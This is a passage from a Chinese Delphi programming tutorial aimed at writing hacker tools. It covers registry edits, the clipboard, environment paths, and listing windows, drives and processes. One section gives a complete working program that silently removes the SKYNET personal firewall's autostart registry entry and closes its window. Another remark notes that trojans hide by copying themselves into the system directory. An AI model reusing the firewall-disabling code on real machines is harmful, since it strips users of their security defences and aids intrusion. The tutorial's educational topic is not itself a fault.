

图 2.29



图 2.30

点击程序中的“删除值”按钮，就会把这个 CTFMON.EXE 注册表值删除掉了，如图 2.31。删除 CTFMON.EXE 注册表值的结果如图 2.32 所示，可以看到 CTFMON.EXE 和它的路径也一起被删除掉了。



图 2.31

### 2.2.2 关闭天网防火墙

## 第二章 Delphi基础知识

在本节内容中，我们将通过操作注册表来实现关闭天网防火墙，在一些黑客工具中，实现这点操作至关重要。首先，点击工具栏上的“-”号按钮（减号按钮），会弹出一个删除对话框，选择单元 1（Unit1），然后点击“OK”确定，如图 2.33。





这样做的好处就是程序在运行之后是没有界面的，而且程序的体积也会减小。我们选择查看（View）下的单元（Units），如图 2.34，在弹出的查看单元选择框中，选择 PROJECT1，然后点击 OK 按钮，如图 2.35，此时就会来到代码编辑窗口了，如图 2.36。程序的完整代码如下：



```pascal
program iparmon;

uses
  Windows, Registry, ShellAPI, Messages;
  // 这些不能少

{$R *.RES}

var
  reg: TRegistry;

begin
  reg := TRegistry.Create;
  reg.RootKey := HKEY_LOCAL_MACHINE;
  try // 去掉天网防火墙的自启动
    if reg.OpenKey('SOFTWARE\Microsoft\Windows\CurrentVersion\Run', False) then
    begin
      reg.DeleteValue('SKYNET Personal Firewall');
      reg.CloseKey;
    end;
  finally
    reg.Free;
  end;

  if FindWindow(nil, PChar('PFW')) > 0 then // 找到天网防火墙的窗口句柄，然后发送消息关闭
    SendMessage(FindWindow(nil, PChar('PFW')),
      WM_CLOSE, 0, 0);
end.
```






程序关闭天网防火墙的原理为：首先删除天网防火墙的注册表启动项，这样就避免了下次系统启动时的天网防火墙的自启动，然后通过 SendMessage 函数向天网防火墙的窗口句柄发送 WM_CLOSE 消息，来达到关闭天网防火墙窗口的目的，最终的程序代码如图 2.37 所示，在生成 EXE 文件后，一旦运行这个程序，就可以实现关闭天网防火墙的目的了。

## 2.3 剪贴板操作

我们再介绍一下剪贴板的操作方法，要想使用剪贴板，则先要引用 CLIPBRD 库文件，如图 2.38，我们在程序窗口上添加两个按钮组件和一个编辑框组件，如图 2.39。


最后，编写如下的代码：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, Clipbrd, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Edit1: TEdit;
    Button2: TButton;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TClipboard;
  s: string;
begin
  a := TClipboard.Create; // 创建剪贴板对象
  s := Edit1.Text;
  a.SetTextBuf(PChar(s)); // 设置剪贴板内容
  Form1.Caption := a.AsText; // 获取剪贴板内容
end;

procedure TForm1.Button2Click(Sender: TObject);
var
  a: TClipboard;
  s: string;
begin
  a := TClipboard.Create;
  a.AsText := Edit1.Text; // 设置剪贴板内容
  Form1.Caption := a.AsText; // 得到剪贴板的内容
end;

end.
```

第一个按钮使用了剪贴板对象的 SetTextBuf 方法来实现设置剪贴板内容，然后使用 AsText 方法读取剪贴板内容；第二个按钮使用 AsText 方法实现了设置剪贴板内容和获取剪贴板内容的双向操作。按 F9 运行程序，点击任何一个按钮都可以实现通过剪贴板设置程序标题栏标题，如图 2.40。

## 2.4 获取环境变量

在进行程序编写时，系统的环境变量有时对我们是非常重要的，比如有时我们就要使用到系统路径和程序自身路径等等，接下来我就介绍一下如何使用 Delphi 获取这些环境变量。

### 2.4.1 获取 WINDOWS 目录

如果要获取系统目录可以通过两种方法：一种是使用 GetWindowsDirectory 这个 API 函数来得到系统目录，另一种就是使用 GetEnvironmentVariable 这个 Delphi 内部提供的获取环境变量的函数来获取系统目录。

我们在窗体上添加两个编辑框组件，然后再添加两个按钮组件，一个通过 API 函数来获取系统目录，另一个通过内置的函数来获取系统目录，程序界面如图 2.41 所示。如果要使用 API 函数，就要引用 ShellAPI 这个库文件，引用的方法如图 2.42。


程序的详细代码如下：


```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants,
  Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ShellAPI; // 调用 API

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Edit2: TEdit;
    Button1: TButton;
    Button2: TButton;
    procedure Button2Click(Sender: TObject);
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;
``````delphi
{ Public declarations }
end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button2Click(Sender: TObject);
begin
  Edit2.Text := GetEnvironmentVariable(PChar('windir'));  // 内置函数获取系统目录
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  a: array[0..255] of Char;  // 定义数组
begin
  GetWindowsDirectory(a, SizeOf(a));  // API函数获取系统目录
  Edit1.Text := StrPas(a);
end;

end.


```

按 F9 运行程序，分别点击那两个按钮，都可以迅速地获取系统目录，如图 2.43。在许多黑客工具中都会使用到系统目录，比如一些早期的木马程序就会把自身的木马文件复制到系统目录中，以达到自身隐藏的目的。

### 2.4.2 获取自身路径

有时我们在程序中需要获取自身的程序路径，然后再进行一些操作，我们在程序的窗体界面中添加两个编辑框组件，再添加两个按钮组件，程序界面如图 2.44 所示。
程序的详细代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Edit2: TEdit;
    Button1: TButton;
    Button2: TButton;
    procedure Button2Click(Sender: TObject);
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button2Click(Sender: TObject);
begin
  Edit2.Text := ParamStr(0);  // 通过函数得到自身路径
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  Edit1.Text := Application.ExeName;  // 通过 Application 对象得到自身路径
end;

end.


```
程序使用到了两种方法来获取程序自身的路径，一个是使用 PARAMSTR 函数，另一个是使用 APPLICATION 方法，程序运行后的效果如图 2.45 所示。

### 2.4.3 获取其它路径

除了要获取系统目录和程序的自身路径外，有时还要获取程序目录路径或者临时文件路径，本节的程序界面和上节类似，如图 2.46。

程序代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Edit2: TEdit;
    Button1: TButton;
    Button2: TButton;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  Edit1.Text := GetEnvironmentVariable(PChar('temp'));
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  Edit2.Text := GetEnvironmentVariable(PChar('programfiles'));
end;

end.


```
程序的原理就是通过 GETENVIRONMENTVARIABLE 来获取临时文件路径和程序文件路径，运行后的效果如图 2.47 所示。

## 2.5 获取系统信息

下面我们介绍如何获取一些系统信息，包括存在的窗口、存在的磁盘和进程等信息。同时，所有的接收都是采取函数或者过程的形式，这样就可以方便读者以后调用了。

### 2.5.1 获取窗口

首先来介绍如何获取系统当前运行的所有窗口，首先添加一个列表框控件和一个按钮控件，如图 2.48，然后，添加如下代码：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    ListBox1: TListBox;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

function My_RefreshForm(MyStringList: TStringList): Boolean;  // 查找所有窗口
var
  hCurrentWindow: HWND;
  szText: array[0..254] of Char;
begin
  MyStringList.Clear;
  hCurrentWindow := GetWindow(Application.Handle, GW_HWNDFIRST);
  while hCurrentWindow <> 0 do
  begin
    if GetWindowText(hCurrentWindow, @szText, 255) > 0 then
      MyStringList.Add(StrPas(@szText));
    hCurrentWindow := GetWindow(hCurrentWindow, GW_HWNDNEXT);
  end;
  Result := True;
end;

procedure My_KillForm(S: String);  // 关闭指定标题的窗口
var
  ExeHandle: THandle;
begin
  ExeHandle := FindWindow(nil, PChar(S));
  if ExeHandle <> 0 then
    PostMessage(ExeHandle, WM_QUIT, 0, 0);
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TStringList;
begin
  a := TStringList.Create;  // 创建字符串列表对象
  My_RefreshForm(a);        // 调用函数得到窗口列表
  ListBox1.Items.Assign(a); // 绑定到 ListBox 中
end;

end.


```

按 F9 运行程序，程序运行的结果如图 2.49 所示。

### 2.5.2 获取所有磁盘

获取系统中存在的所有磁盘往往是一个非常普通的操作，在许多程序中都会有这个功能，那么要如何获取系统中所有的磁盘信息呢？技术原理就是通过使用 GetDriveType 函数来获取磁盘目录类型，然后进行添加和显示。程序使用到了一个列表框组件和一个按钮组件，程序界面如图 2.50 所示。
图 2.49

图 2.50

程序的所有代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ComCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    TreeView1: TTreeView;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  i: Integer;
  n: Integer;
begin
  for i := 65 to (65 + 25) do
  begin
    n := GetDriveType(PChar(Chr(i) + ':\'));
    case n of
      // 0:
      //   TreeView1.Items.Add(nil, Chr(i) + ':\ 无法检测!');
      // 1:
      //   TreeView1.Items.Add(nil, Chr(i) + ':\ 不存在!');
      DRIVE_REMOVABLE:
        TreeView1.Items.Add(nil, Chr(i) + ':\ 可移动盘');
      DRIVE_FIXED:
        TreeView1.Items.Add(nil, Chr(i) + ':\ 电脑硬盘');
      DRIVE_REMOTE:
        TreeView1.Items.Add(nil, Chr(i) + ':\ 远程网络盘');
      DRIVE_CDROM:
        TreeView1.Items.Add(nil, Chr(i) + ':\ CD_ROM');
      DRIVE_RAMDISK:
        TreeView1.Items.Add(nil, Chr(i) + ':\ 软盘');
      // else
      //   TreeView1.Items.Add(nil, Chr(i));
    end;
  end;
end;

end.


```

程序主要通过一个循环来遍历所有磁盘，然后通过 GETDRIVETYPE 函数获取磁盘类型，最后再添加到 TREEVIEW 组件中，按 F9 运行程序，运行的结果如图 2.51 所示。

### 2.5.3 获得所有进程

获取系统进程信息也是 DELPHI 操作的一个方面，本节来介绍一下如何使用 DELPHI 获取内存中所有运行的进程信息。首先，在窗体中添加一个 LISTBOX 和 BUTTON 组件，程序界面如图 2.52 所示。

程序的详细代码如下：
```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms,
  Dialogs, StdCtrls, TLHelp32;  // 添加 TLHelp32 库文件

type
  TForm1 = class(TForm)
    ListBox1: TListBox;
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;
  List: TStringList;   // 把 List 声明成全局变量

implementation

{$R *.dfm}

function EnumerateProcess: string;   // 列举进程
var
  lppe: TProcessEntry32;
  found: Boolean;
  Hand: THandle;
begin
  List := TStringList.Create;
  try
    Hand := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    lppe.dwSize := SizeOf(lppe);
    try
      found := Process32First(Hand, lppe);
      while found do
      begin
        List.Add(ExtractFileName(lppe.szExeFile) + '  ID：' + IntToHex(lppe.th32ProcessID, 10));
        found := Process32Next(Hand, lppe);
      end;
    finally
      CloseHandle(Hand);
    end;
  finally
    // List.SaveToFile('C:\result.txt'); // 可以保存到磁盘文件中
    Result := List.Text;
    // List.Free; // 双击 Click 事件中释放 List 对象。
  end;
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  EnumerateProcess; // 调用自定义函数，得到进程列表
  ListBox1.Items.Assign(List);
  // Memo1.Lines.Assign(List); // 可以保存到 Memo 中
  List.Free;
end;

end.


```

我们把列出进程信息做成了一个函数 EnumerateProcess，EnumerateProcess 函数返回一个 STRING 类型变量，可以通过调用这个函数来获取进程信息。按 F9 运行程序，程序运行后的结果如图 2.53 所示。

### 2.5.4 获取计算机名称

